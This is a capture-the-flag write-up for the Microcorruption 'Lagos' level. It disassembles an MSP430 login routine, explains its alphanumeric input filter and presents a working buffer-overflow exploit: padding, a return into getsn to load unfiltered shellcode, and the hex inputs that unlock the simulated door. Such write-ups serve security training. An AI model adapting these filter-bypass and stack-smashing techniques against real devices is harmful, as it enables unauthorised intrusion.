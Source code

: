 # For Lagos in microcorruption

>     This is  Software Revision  04. Due to  user confusion  over which
    characters passwords may contain,  only alphanumeric passwords are
    accepted.

This challenge has neither ASLR nor DEP protection. It just limits the input to alphanumeric values (ie `[A-z0-9]` ).


#### Dissecting the program.


Even though the program reminds that "passwords are between 8 and 16 characters", it actually reads 200 characters into address `0x2400`.
```
4584:  3e40 0002      mov	#0x200, r14
4588:  3f40 0024      mov	#0x2400, r15
458c:  b012 5046      call	#0x4650 <getsn>
```

It then copies user input onto the top of the stack assuming all of them are alphanumeric characters. The program breaks out of the loop once an invalid character is found. 
```
45ae:  4b4f           mov.b	r15, r11
45b0:  7b50 d0ff      add.b	#0xffd0, r11
45b4:  4c9b           cmp.b	r11, r12	
45b6:  f42f           jc	#0x45a0 <login+0x42>	# copy user input to stack if it's =< '9' or => '0'
45b8:  7b50 efff      add.b	#0xffef, r11
45bc:  4d9b           cmp.b	r11, r13
45be:  f02f           jc	#0x45a0 <login+0x42>	# copy user input to stack if it's =< 'Z' or => 'A'
45c0:  7b50 e0ff      add.b	#0xffe0, r11
45c4:  4d9b           cmp.b	r11, r13
45c6:  ec2f           jc	#0x45a0 <login+0x42>	# copy user input to stack if it's =< 'z' or => 'a'
```


The way the program sanitises user input may look confusing, but it's actually very smart. I shall explain using the first check as an example. The program wants to make sure that the input is between '0' and '9'. The hex values of these 2 characters are 0x30 and 0x39 respectively. `add.b #0xffd0, r11` adds 0xffd0 to `r11`, and stores the least significant byte into `r11`. The carry flag is then set if `r11` is *smaller* than 0x9 (ie 0 =< `r11` =< 9). Let's see how it works with 3 test cases:

1. Input: '/' (hex value 0x2f). (0x2f + 0xffd0) & 0xff = 0xff. Since 0xff > 0x9, the carry flag is not set, and the input fails the sanitation check.

2. Input: '5' (hex value 0x35). (0x35 + 0xffd0) & 0xff = 0x05. Since 0x05 < 0x9, the carry flag is set, and the input passes the sanitaion check. 

3. Input: ':' (hex value 0x3a). (0x3a + 0xffd0) & 0xff = 0x0a. Since 0x0a > 0x9, the carry flag is not set, and the input fails the sanitation check.

Ok. We know that the program walks the talk. It sanitises user input and accepts only alphanumeric characters. The sanitised user input is stored starting in address `0x43ec`.

```
45d2:  3f40 0024      mov	#0x2400, r15
45d6:  b012 8c46      call	#0x468c <memset>
```
`<memset>` then clears all the bytes around address `0x2400` where the user input was read into memory by `<getsn>`.

```
45da:  0f41           mov	sp, r15
45dc:  b012 4644      call	#0x4446 <conditional_unlock_door>
```
Then, the program tests the sanitised user input using `INT 0x7E` in `<conditional_unlock_door>` to unlock the door if the password is correct.

The program then returns to `<main>`. The user input sanitiser does not care *how many* valid characters we enter into the program, we can smash the stack by overwriting the `ret` address located in address `0x43fe`.
```
45f2:  3150 1000      add	#0x10, sp
45f6:  3b41           pop	r11
45f8:  3041           ret
```
#### Exploiting the program

We can smash the stack, but since our user input is limited to hex values `0x30 to 0x39`, `0x41 to 0x5A`, and `0x61 to 0x7A`, the addresses we can return to is limited. There is also no `INT 0x7F` present in the program to redirect execution to. So what do we do? Like the challenge Bangalore, we can recall `<getsn>` to read another set of input. The difference here is that instead of bypassing the DEP memory protection, here we are bypassing the user input sanitation. That way we can input our shellcode `mov #0xff00, sr; call #0x10` into memory, then redirect program execution there to unlock the door.

Input 1: `41414141414141414141414141414141415446424130304241`
  
- `4141414141414141414141414141414141` is the padding.
  
- `544642413030` returns to address `0x4654` with arguments `0x4142` and `0x3030`. It is equivalent to calling the function `getsn(0x4142, 0x3030 chars)`. It reads Input 2 into memory address `0x4142`. The address is chosen because it is word aligned and its characters are alphanumeric.

- `4241` then returns to address `0x4142` where our shellcode is located.

Input 2: `324000ffb0121000`

- It is our shellcode for `mov #0xff00, sr; call #0x10`. Since user input sanitation is bypassed, this input is "valid". 

Key in Input 1 & 2 into the program and we successfully unlock the door.

END

